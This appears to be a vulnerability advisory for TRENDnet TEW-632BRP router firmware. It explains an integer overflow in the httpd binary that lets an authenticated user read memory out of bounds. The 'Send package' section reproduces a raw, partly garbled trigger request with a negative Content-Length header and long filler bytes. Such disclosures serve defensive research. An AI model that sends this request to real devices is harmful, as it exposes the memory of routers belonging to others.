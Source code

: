 # TEW-632BRP
## Firmware version
TEW-632BRP devices through 1.010b32
## description
TRENDnet TEW-632BRP devices through 1.010b32 contain a read oob caused by integer overflow in the httpd binary. The oob allows an authenticated user to read arbitrary lengths of memory.
## detail
the bug in fucntion httpd_main, binary fs/sbin/httpd at address 0x4078cc witch read the "Content-Length" field from the message without check if it is negative.
The parameter read at address 0x4078cc throuth calling strtoul, it is then passed to get_pure_content as the fourth parameter. get_pure_content calls the safe_read in a do while loop but without check if the length to read is negative entering the loop. 
![negative_length2](neagtive_length2.png)
![negative_length](neagtive_length.png)
## Send package
```txt
<OST c0
\FF8
U
\FF\85\EC
Co\A7tent-LengthennnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnhnnnnnnnnnnnnnPOST /apcTX bytes:
SOAPACTION:HNAP1z
Content-Length: -3

nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnzywzywzywzywzywzywzywzywzywzywzywzywzywzunnnnnnnnnnn}nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn\91nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn]nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn\91nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnn]nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnST /+url_nnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnngth2
@\00ntent-Length:0
SOgs/
Contenturl_domain_filterngtnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnnngth2
@\00ntent-Length:0
SOgs/
Contenturl_domain_filterngth: \97ip_19-Le_trdst_z/
Content-L\00\00\80gOB@ 
```
